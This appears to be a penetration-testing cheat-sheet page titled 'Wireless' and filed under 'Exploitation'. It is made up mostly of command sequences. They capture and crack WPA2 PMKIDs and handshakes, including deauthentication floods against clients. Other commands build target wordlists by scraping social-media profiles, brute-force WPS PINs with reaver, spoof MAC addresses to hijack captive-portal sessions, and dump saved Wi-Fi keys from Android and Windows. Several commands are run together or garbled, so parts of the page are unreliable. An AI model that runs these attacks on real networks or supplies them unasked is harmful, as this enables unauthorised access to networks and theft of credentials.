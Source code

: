 ```yaml
---
title: Wireless
category: Exploitation
order: 7
---
```


> **Installation/Uninstallation of ALPHA Card

{% highlight bash %}
#Install
apt-get update
apt-get install build-essential bc libelf-dev linux-headers-`uname -r`
git clone -b v5.6.4.2 https://github.com/aircrack-ng/rtl8812au.git
cd rtl*
./dkms-install.sh

#Uninstall
./dkms-remove.sh
{% endhighlight %}


> **Monitor Mode** 

{% highlight bash %}
airmon-ng check kill
sudo ip link set wlan0 down
sudo iw dev wlan0 set type monitor
sudo ip link set wlan0 up
sudo iw wlan0 set txpower fixed 3000
{% endhighlight %}

Note: If an error occors try the following:
{% highlight bash %}
sudo airmon-ng check kill
sudo airmon-ng start wlan0
{% endhighlight %}

> **Obtain and Crack WPA2 PSK** 

**PMKID:**

{% highlight bash %}
#Verify everything is working
hcxdumptool -i wlan0 --do_rcascan
#Verify the in scope MAC and record channel
#Create the filter list
echo TARGETMACADDRESS > aplist.txt
hcxdumptool -c <channel> --disable_client_attacks --stop_ap_attacks=600 --disable_deauthentication --filterlist_ap=<file with MAC address> --filterlist_client=<file with MAC address> -i wlan0 -o capture.pcapng --enable_status 1 --filetermode=2
#Extract the PSK hash
hcxpcaptool -z hash.txt capture.pcapng
#Crack the hash
hashcat -m 16800 hash.txt passwordlist.txt
{% endhighlight %}

**Handshake:**

{% highlight bash %}
$ airodump-ng wlan0mon;
$ airodump-ng --ignore-negative-one --channel [channel] --bssid [bssid] wlan0mon -w WPAHandshake
#If you don't see a handshake, perform a deauth attack
$ sudo aireplay-ng --ignore-negative-one --deauth 1000 -a [bssid] -c [client MAC] wlan0mon
#Break with pyrite rainbow table
$ pyrit -r WPAHandshake-06.cap attack_batch
#Break with HashCat
$ aircrack-ng -J [SSID] WPAHandshake.cap
C:\ hashcat64.exe -m 2500 [SSID].hccap  rockyou.txt -r rules/best64.rule or PASSWORDSPRO
{% endhighlight %}

**Wordlist:**

{% highlight bash %}
#Create a pyrit Rainbow table
#Create or select a wordlist
$ cewl http://www.facebookprofile.com >> wordlistUniq.lst 
$ cewl http://www.linkedinprofile.com >> wordlistUniq.lst 
$ grep -h -r  wordlistUniq.lst | sort | uniq > wordlistFinal.lst
$ grep -h -r """" [wordlist] | tr '[:space:]' '\n' | sort | uniq > wordlistUniq.lst 
$ john --wordlist=wordlistFinal.lst --rules:'[chosen rule set]' --stdout > mangledWordlist
{% endhighlight %}

**Rainbow Table:**

{% highlight bash %}
$ pyrit -e '[SSID]'  create_essid
$ pyrit -i mangledWordlist.txt import_passwords
$ pyrit batch
{% endhighlight %}

> **WPS** 

The following need to be installed:

* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight bash %}
#Search for WPS that is enabled and not locked
$ sudo wash -i wlan0mon -C

#Once located start the attack
$ sudo reaver -i wlan0mon 00:00:00:00:00:00 -S -v

#If reaver keeps tring 12345670:
$ sudo reaver -i wlan0mon -b 00:24:B2:88:CC:65 -S -v -N
{% endhighlight %}


> **Impersonate Departed User** 

Find a client:
{% highlight bash %}
sudo perl cpscam.pl 10.10.10.0 255.255.255.0  Change MAC: sudo 
{% endhighlight %}

Copy MAC Address:
{% highlight bash %}
ifconfig en0 ether 00:01:02:03:04:05 ifconfig eth 0 down ifconfig eth0 hw ether [MAC] ifconfig eth0 up
{% endhighlight %}

> **Client Keys** 

Android:
{% highlight bash %}
$ su -c "cat /data/misc/wifi/wpa_supplicant.conf" | grep psk=
{% endhighlight %}

OSX:
{% highlight bash %}
TBD
{% endhighlight %}

Windows:
{% highlight powershell %}
netsh wlan show profile name=”[apname]” key=clear 
{% endhighlight %}

> **Captive Portal: Impersonate Departed User**

[CPSCAM](http://www.willhackforsushi.com/code/cpscam.pl)

Find client: 
{% highlight bash %}
sudo perl cpscam.pl 10.10.10.0 255.255.255.0  
{% endhighlight %}

Change MAC: 
{% highlight bash %}
ifconfig eth 0 down 
ifconfig eth0 hw ether [MAC] 
ifconfig eth0 up
{% endhighlight %}


> **Useful Tools** 

* [http://www.nirsoft.net/utils/wireless_key.html](http://www.nirsoft.net/utils/wireless_key.html)



